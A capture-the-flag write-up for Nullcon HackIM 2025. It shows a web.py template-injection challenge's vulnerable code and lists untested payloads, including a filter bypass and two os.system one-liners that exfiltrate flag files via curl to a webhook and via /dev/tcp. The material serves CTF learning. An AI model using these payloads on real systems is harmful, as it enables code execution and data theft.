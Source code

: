 Full clear writeups at https://mindcrafters.xyz/writeups/nullconctf-2025-web/
Everything but zoney.eno at https://aftabsama.com/writeups/ctf/nullcon-hackim-ctf-goa-2025/

# Temptation
#langs/python 
#libs/webdotpy
A SSTI challenge where our input is directly passed to the templating system. The goal is to override the template to only return `FLAG`
```python
...
    def POST(self):
        f = temptation_Form()
        if not f.validates():
            return render.index(f)
        i = web.input()
        temptation = i.temptation
        if 'flag' in temptation.lower():
            return "Too tempted!"
        try:
            temptation = web.template.Template(f"Your temptation is: {temptation}")()
        except Exception as  e:
            return "Too tempted!"
        if str(temptation) == "FLAG":
            return FLAG
        else:
            return "Too tempted!"
...
```
I haven't really seen any SSTI guides for web.py, so I'll just include a bunch of solutions for this challenge here. Weirdly, web.py [promotes itself as having a secure templating system](https://webpy.org/docs/0.3/templetor#security), yet some solves seem to say otherwise.
Solutions (All untested):
Updating template
```python
$code:
    self.update({"__body__": "FL"+"AG"})
```
Stealing flag directly
```python
$__import__('os').system('curl+http://webhook/`cat+/tmp/f*.txt`') 
```
Similar to above but without curl
```python
$__import__('os').system('bash -c "cat /tmp/fla* > /dev/tcp/{ip}/{port}"')
```
# ZONEy.eno
#misc/dns
Writeup at https://blog.n0va.in/posts/nullcon-writeup/